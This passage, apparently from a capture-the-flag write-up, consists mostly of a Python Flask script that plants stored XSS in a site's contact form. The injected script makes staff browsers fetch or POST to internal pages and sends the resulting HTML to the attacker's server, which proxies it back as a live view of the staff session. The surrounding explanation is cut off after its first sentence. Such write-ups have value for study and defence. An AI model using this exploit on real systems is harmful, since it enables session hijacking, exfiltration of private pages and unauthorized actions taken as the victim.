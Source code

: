 ```python
PORT = 8888

app = Flask(__name__)

# cache
pages = {}

def make_request(path,post, post_data=None, page_id=None):
    data = {
        "email": "",
        "title": "",
    }
    if post:
        data["message"] =  f"<script>async function y(){{var x = await fetch('{{STAFF_URL}}/{{path}}',{{method:'POST', headers: {{'Content-Type': 'application/x-www-form-urlencoded'}},body:'{{urlencode(post_data)}}'}});await fetch('http://{{IP}}:{{PORT}}/recieve', {{method:'POST',body:await JSON.stringify({{'html':btoa(await x.text()),'page':'{{page_id}}'}})}});}}y();</script>"
    else:
        data["message"] = f"<script>async function y(){{var x = await fetch('{{STAFF_URL}}/{{path}}');await fetch('http://{{IP}}:{{PORT}}/recieve', {{method:'POST',body:await JSON.stringify({{'html':btoa(await x.text()),'page':'{{path}}'}})}});}}y();</script>"
    res = requests.post(BASE_URL + "/contact.php",data=data)
    return res.status_code == 200

@app.route("/recieve", methods= ["POST"])
def recieve():
    # recieve the request made by XSS and save the HTML to pages dict
    if request.method == "POST":
        raw_json = request.data.decode()
        json_data = json.loads(raw_json)
        page = json_data["page"]
        html = json_data["html"]
        pages[page] = html
        return "Thank you"

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods = ["GET", "POST"])
def catch_all(path):
    if request.method == "GET":
        # if path not seen before, do the XSS to get the HTML
        if pages.get(path) is None:
            make_request(path,False)
        # wait for the HTML to get cached
        while not pages.get(path):
            sleep(1)
        # decode and render the html
        b64 = pages[path]
        html = base64.b64decode(b64).decode()
        return render_template_string(html)
    else:
        response_id = binascii.b2a_hex(os.urandom(12)).decode()
        make_request(path,True, request.form, response_id)
        while not pages.get(response_id):
            sleep(1)
        b64 = pages[response_id]
        html = base64.b64decode(b64).decode()
        return render_template_string(html)

app.run("0.0.0.0",port=PORT,debug=True)
```
It is a bit more complicated than i expected, but it works like this:
